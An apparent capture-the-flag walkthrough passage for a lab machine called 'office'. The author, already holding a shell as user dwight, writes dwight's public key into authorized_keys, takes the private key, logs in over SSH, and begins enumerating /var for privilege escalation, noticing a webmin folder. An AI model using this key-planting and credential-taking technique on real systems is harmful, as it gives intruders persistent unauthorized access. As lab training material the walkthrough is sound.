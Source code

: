 ```
dwight@office:~/.ssh$ ls -al
ls -al
total 16
drwxrwxr-x 2 dwight dwight 4096 Nov 30 22:33 .
drwxr-xr-x 4 dwight dwight 4096 May  8  2020 ..
-rw------- 1 dwight dwight 1679 Nov 30 22:33 id_rsa
-rw-r--r-- 1 dwight dwight  395 Nov 30 22:33 id_rsa.pub
dwight@office:~/.ssh$ cat id_rsa.pub
cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPgHai3fDZqwsaQmTnVZcYGEkyQ3HqauRoDw83519IcId1kQxb+dtzC4ADYtXSLIzyc8H53dwW9aTIzX7j/lddQDfuqD4j7iJi8qMNMGtNQyrRdLRlxJPEo3M3Or0+qbaPMXfNVXfNnCFIeInzJhzLPKpZS5eYh7IJryhjEWwMHhm+mE+0xCd+z7FswoyKRSRIeR8hdeKhRuJ+UJTTD4GHI/6fOExMftoQwdfMUUon303/V6zwaky4s0d6R5OTesq/bcn2VE1CiDG/r29wSc5y44tHjyvfh80DkyaE8Yvr6j4PRxgAvRn7CP3CIBA67cHkXaHMV7i1rEJ8OEX/AEot dwight@office
dwight@office:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPgHai3fDZqwsaQmTnVZcYGEkyQ3HqauRoDw83519IcId1kQxb+dtzC4ADYtXSLIzyc8H53dwW9aTIzX7j/lddQDfuqD4j7iJi8qMNMGtNQyrRdLRlxJPEo3M3Or0+qbaPMXfNVXfNnCFIeInzJhzLPKpZS5eYh7IJryhjEWwMHhm+mE+0xCd+z7FswoyKRSRIeR8hdeKhRuJ+UJTTD4GHI/6fOExMftoQwdfMUUon303/V6zwaky4s0d6R5OTesq/bcn2VE1CiDG/r29wSc5y44tHjyvfh80DkyaE8Yvr6j4PRxgAvRn7CP3CIBA67cHkXaHMV7i1rEJ8OEX/AEot dwight@office" > authorized_keys
<HMV7i1rEJ8OEX/AEot dwight@office" > authorized_keys
```

Grab the `private key` and you got ssh access as dwight

Don't forget to fix the ssh key permissions

```
└──╼ $chmod 600 id_rsa

└──╼ $ssh dwight@172.31.3.1 -i id_rsa
...
dwight@office:~$ id
uid=1001(dwight) gid=1001(dwight) groups=1001(dwight)

```

I tried basic stuff like sudo and suid but no clue

I decided to o back to web folder to enumerate files...I already saw a `Webmin.out` file
when I took access as `www-data` and now I got a `/var/webmin` folder...unusual

```
dwight@office:/var$ ls -al
total 60
drwxr-xr-x 15 root root   4096 May  8  2020 .
drwxr-xr-x 24 root root   4096 May  8  2020 ..
drwxr-xr-x  2 root root   4096 May  9  2020 backups
drwxr-xr-x 12 root root   4096 May  8  2020 cache
drwxrwxrwt  2 root root   4096 Feb  3  2020 crash
drwxr-xr-x 40 root root   4096 May  8  2020 lib
drwxrwsr-x  2 root staff  4096 Apr 24  2018 local
lrwxrwxrwx  1 root root      9 Feb  3  2020 lock -> /run/lock
drwxrwxr-x 11 root syslog 4096 May  8  2020 log
drwxrwsr-x  2 root mail   4096 Feb  3  2020 mail
drwxr-xr-x  2 root root   4096 Feb  3  2020 opt
lrwxrwxrwx  1 root root      4 Feb  3  2020 run -> /run
drwxr-xr-x  3 root root   4096 May  8  2020 snap
drwxr-xr-x  4 root root   4096 Feb  3  2020 spool
drwxrwxrwt  5 root root   4096 Nov 30 22:39 tmp
drwx------  3 root bin    4096 Nov 30 19:03 webmin
drwxr-xr-x  3 root root   4096 May  8  2020 www
```
